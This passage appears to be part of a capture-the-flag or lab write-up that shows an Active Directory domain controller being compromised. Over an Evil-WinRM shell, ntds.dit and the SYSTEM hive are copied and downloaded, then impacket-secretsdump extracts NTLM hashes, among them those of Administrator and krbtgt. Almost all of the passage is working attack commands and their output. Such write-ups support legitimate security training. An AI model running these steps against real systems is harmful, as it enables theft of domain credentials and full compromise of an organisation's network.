 ```bash
	                   1	z:\\windows\\ntds\\
	    New File  		  18.0 m	ntds.dit
0.0%
0.3%
...
99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00

   Speed :           121770116 Bytes/sec.
   Speed :            6967.741 MegaBytes/min.
   Ended : Tuesday, August 5, 2025 9:29:31 PM

*Evil-WinRM* PS C:\\Temp> reg save hklmsystem c:Tempsystem
reg.exe : ERROR: Invalid key name.
    + CategoryInfo          : NotSpecified: (ERROR: Invalid key name.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Type "REG SAVE /?" for usage.
*Evil-WinRM* PS C:\\Temp> reg save hklm\\system c:\\Temp\\system
The operation completed successfully.

*Evil-WinRM* PS C:\\Temp> download ntds.dit
                                        
Info: Downloading C:\\Temp\\ntds.dit to ntds.dit
                                        
Info: Download successful!
*Evil-WinRM* PS C:\\Temp> download system
                                        
Info: Downloading C:\\Temp\\system to system
                                        
Info: Download successful!
*Evil-WinRM* PS C:\\Temp> 
```

### Dumping NTDS using the SYSTEM hive

Finally, run secretsdump to **extract NTLM password hashes** and **other credential data** from an **offline copy of the AD database (`ntds.dit`)**, using the **Boot Key from the `SYSTEM` hive**.
```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:077e90a55810c6b13c6ff0983cb831ef:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```